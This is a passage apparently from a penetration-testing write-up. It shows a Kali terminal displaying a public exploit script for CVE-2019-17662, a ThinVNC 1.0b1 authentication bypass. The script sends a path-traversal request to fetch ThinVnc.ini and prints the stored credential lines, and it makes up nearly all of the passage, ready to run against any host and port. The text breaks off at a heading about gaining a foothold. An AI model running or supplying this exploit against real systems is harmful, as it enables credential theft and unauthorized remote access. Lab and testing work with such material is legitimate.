 ```
File Type: Python script, ASCII text executable
Copied to: /home/kali/47519.py


                                                                                                              
┌──(kali㉿kali)-[~]
└─$ cat 47519.py 
# Exploit Title: ThinVNC 1.0b1 - Authentication Bypass
# Date: 2019-10-17
# Exploit Author: Nikhith Tumamlapalli
# Contributor WarMarX
# Vendor Homepage: https://sourceforge.net/projects/thinvnc/
# Software Link: https://sourceforge.net/projects/thinvnc/files/ThinVNC_1.0b1/ThinVNC_1.0b1.zip/download
# Version: 1.0b1
# Tested on: Windows All Platforms
# CVE : CVE-2019-17662

# Description:
# Authentication Bypass via Arbitrary File Read

#!/usr/bin/python3

import sys
import os
import requests

def exploit(host,port):
    url = "http://" + host +":"+port+"/xyz/../../ThinVnc.ini"
    r = requests.get(url)
    body = r.text
    print(body.splitlines()[2])
    print(body.splitlines()[3])



def main():
    if(len(sys.argv)!=3):
        print("Usage:\n{} <host> <port>\n".format(sys.argv[0]))
        print("Example:\n{} 192.168.0.10 5888")
    else:
        port = sys.argv[2]
        host = sys.argv[1]
        exploit(host,port)

if __name__ == '__main__':
    main() 
    
```

### Attack Foothold
